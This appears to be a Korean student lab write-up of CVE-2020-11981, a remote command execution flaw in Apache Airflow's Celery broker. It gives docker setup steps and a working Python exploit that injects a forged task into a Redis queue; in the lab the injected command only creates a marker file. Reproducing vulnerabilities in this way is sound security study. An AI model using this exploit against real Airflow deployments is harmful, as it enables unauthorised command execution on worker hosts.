


# Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

> 화이트햇 스쿨 3기 (20반) - 금도혁
> 

### 요약

- Apache Airflow는 오픈 소스 분산 작업 스케줄링 프레임워크이다.
- 1.10.10 이전 버전에서 Redis 브로커(예: Redis 또는 RabbitMQ)가 공격자에 의해 제어되면, 공격자는 워커 프로세스에서 임의의 명령을 실행할 수 있다.

### 환경 구성 및 실행

- `docker compose run airflow-init` 로 Apache Airflow의 데이터베이스를 초기화
- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- `pip install redis` 로 필요한 라이브러리 설치
- 아래와 같이 `python exploit_airflow_celery.py` 작성

```c
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))

```

- `python3 exploit_airflow_celery.py 127.0.0.1` 로 `touch /tmp/airflow_celery_success` 실행되도록 함

### 결과

- `docker compose logs airflow-worker` 로  `touch /tmp/airflow_celery_success` 가 실행됐다는 로그 를 확인할 수 있다.



- `docker compose exec airflow-worker ls -l /tmp` 로 `/tmp` 에 `airflow_celery_success` 가 실제로 생성되었음을 확인할 수 있다.



### 정리

이 취약점은 공격자가 Redis 브로커를 악용해 Apache Airflow의 워커 프로세스에서 임의의 명령을 실행할 수 있게 만든다. 이를 통해 시스템의 권한 상승이나 악성 코드 실행이 가능해져, 실제 운영 환경에선 큰 위험이 될 수 있다. 이런 문제를 예방하려면, 브로커 서버를 안전하게 설정하고, 관련 패치가 나오면 즉시 적용하는 게 중요하다.
